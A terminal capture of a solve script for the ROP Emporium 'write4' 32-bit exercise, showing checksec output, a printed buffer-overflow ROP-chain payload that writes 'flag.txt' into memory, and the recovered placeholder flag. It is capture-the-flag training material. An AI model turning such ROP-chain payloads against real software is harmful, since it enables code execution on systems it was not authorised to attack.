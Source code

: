     ropemporium/x32/write4# python3 solve.py
    [*] '/w/ropemporium/x32/write4/write432'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
        RUNPATH:  b'.'
    [+] Starting local process '/w/ropemporium/x32/write4/write432': pid 204

    printf %44s\xaa\x85\x04\x08\x18\xa0\x04\x08\x66\x6c\x61\x67\x43\x85\x04\x08\xaa\x85\x04\x08\x1c\xa0\x04\x08\x2e\x74\x78\x74\x43\x85\x04\x08\xaa\x85\x04\x08\x20\xa0\x04\x08\x00\x00\x00\x00\x43\x85\x04\x08\x36\x85\x04\x08\x18\xa0\x04\x08 A

    [*] Switching to interactive mode
    write4 by ROP Emporium
    x86

    Go ahead and give me the input already!

    > Thank you!
    ROPE{a_placeholder_32byte_flag!}
    [*] Got EOF while reading in interactive
